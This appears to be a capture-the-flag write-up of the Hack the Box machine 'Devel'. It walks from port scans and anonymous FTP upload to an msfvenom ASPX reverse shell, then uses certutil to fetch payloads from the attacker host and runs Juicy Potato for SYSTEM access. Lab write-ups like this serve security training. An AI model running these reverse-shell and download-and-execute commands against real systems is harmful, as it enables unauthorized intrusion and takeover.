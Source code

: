 ```yaml
---
title: Hack the Box - Devel
date: 2022-08-16 18:42:00 -500 
categories: [Hack the Box]
tags: [oscp,windows]
---
```


![Devel](/assets/HackTheBox/Devel/Devel.png)

# Devel Overview

## Machine Details:

|IP|Hostname|Operating System|
|---|---|---|
|10.10.10.5|Devel|Windows|

## Path to Exploitation

On this machine, we will take advantage of a convenient FTP server that accepts anonymous logins and is placed directly in the website's root directory. Then we'll take advantage of our local user's permissions and use the Juicy Potato exploit to elevate our privileges to SYSTEM.

# Enumeration

## Full Port Scan

```bash
nmap 10.10.10.5 -p- -oA Devel/nmap/full-port --open -Pn -vv
```

Results:

|PORT|SERVICE|
|----|-------|
|21|ftp|
|80|http|

## Service Scan

```bash
nmap 10.10.10.5 -p 21,80 -sC -sV -oA Devel/nmap/service-scan -Pn
```

Results:

|PORT|SERVICE|VERSION|
|----|-------|-------|
|21|ftp|ftpd|
|80|http|IIS httpd 7.5|

# FTP

We see we have anonymous access to the FTP server
![FTP Anon Access](/assets/HackTheBox/Devel/ftp-anon.png "Anonymous FTP Access")

Which appears to be the root directory of an IIS server. We can try to leverage this to gain a shell by uploading a payload to the website.

# Shell on Host

Create the reverse shell payload
```shell
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f aspx -o evil.aspx
```

Upload the file to the FTP server
![Upload Payload](/assets/HackTheBox/Devel/file-upload.png "Upload Payload")

Setup a listener and navigate to the payload on the web server
![Trigger Payload](/assets/HackTheBox/Devel/trigger-payload.png "Trigger the Payload")

We see we got a shell as the web user

![Intial Foothold](/assets/HackTheBox/Devel/initial-foothold.png "Intial Foothold")

# Local Enumeration

## Username Enumeration
```shell
C:\> whoami /priv
```

![Whoami Privs](/assets/HackTheBox/Devel/whoami-privs.png "Whoami Privileges")

## System Information
```shell
C:\> systeminfo
```
![System Info](/assets/HackTheBox/Devel/system-info.png "System Info")

We can consider using the Juicy Potato exploit

# Privilege Escalation

Generate the reverse shell payload
```shell
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f exe -o evil.exe
```

Upload the juicy potato exploit file and the reverse shell payload to the host
```shell
C:\> certutil -urlcache -f http://10.10.14.10/juicypotato.exe juicy.exe
C:\> certutil -urlcache -f http://10.10.14.10/evil.exe evil.exe
```

setup a listener and execute the exploit
```shell
C:\> juicy.exe -l 1337 -p C:\tmp\evil.exe -t * -c {6d18ad12-bde3-4393-b311-099c346e6df9}
```

Checking back on the listener we see we have a shell running as the SYSTEM account

![SYSTEM Shell](/assets/HackTheBox/Devel/system-shell.png "SYSTEM Shell")